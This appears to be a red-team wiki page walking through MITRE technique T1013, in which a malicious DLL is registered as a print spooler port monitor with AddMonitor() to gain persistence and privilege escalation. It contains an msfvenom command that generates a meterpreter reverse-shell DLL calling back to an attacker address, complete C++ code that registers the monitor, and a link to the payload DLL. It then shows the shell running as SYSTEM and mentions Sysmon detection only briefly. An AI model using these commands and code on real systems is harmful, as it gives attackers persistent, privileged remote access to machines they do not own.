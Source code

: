 ```yaml
---
description: 'Persistence, Privilege Escalation'
---
```


# T1013: AddMonitor\(\)

## Execution

Generating a 64-bit meterpreter payload to be injected into the spoolsv.exe:

{% code title="attacker@local" %}
```csharp
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=443 -f dll > evil64.dll
```
{% endcode %}

Writing and compiling a simple C++ code that will register the monitor port:

{% code title="monitor.cpp" %}
```cpp
#include "stdafx.h"
#include "Windows.h"

int main() {	
	MONITOR_INFO_2 monitorInfo;
	TCHAR env[12] = TEXT("Windows x64");
	TCHAR name[12] = TEXT("evilMonitor");
	TCHAR dll[12] = TEXT("evil64.dll");
	monitorInfo.pName = name;
	monitorInfo.pEnvironment = env;
	monitorInfo.pDLLName = dll;
	AddMonitor(NULL, 2, (LPBYTE)&monitorInfo);
	return 0;
}
```
{% endcode %}

{% file src="../../.gitbook/assets/t1013-portmonitor64.exe" caption="PortMonitor64" %}

{% file src="../../.gitbook/assets/evil64.dll" caption="evil64.dll - meterpreter payload" %}

Move evil64.dll to `%systemroot%` and execute the compiled `monitor.cpp`.

## Observations

Upon launching the compiled executable and inspecting the victim machine with procmon, we can see that the evil64.dll is being accessed by the spoolsvc:

![](../../.gitbook/assets/monitor-loaddll.png)

![](../../.gitbook/assets/monitor-loaddll2.png)

which eventually spawns a rundll32 with meterpreter payload, that initiates a connection back to the attacker:

![](../../.gitbook/assets/rundll-connect.png)

![](../../.gitbook/assets/monitor-shell-system.png)

The below confirms the procmon results explained above:

![](../../.gitbook/assets/monitor-spoolsvc-rundll.png)

Sysmon commandline arguments and network connection logging to the rescue:

![](../../.gitbook/assets/monitor-sysmon.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1013" %}

{% embed url="https://www.youtube.com/watch?v=dq2Hv7J9fvk" %}

{% embed url="https://msdn.microsoft.com/en-us/library/windows/desktop/dd183341\(v=vs.85\).aspx" %}

{% embed url="https://msdn.microsoft.com/en-us/library/windows/desktop/dd145068\(v=vs.85\).aspx" %}



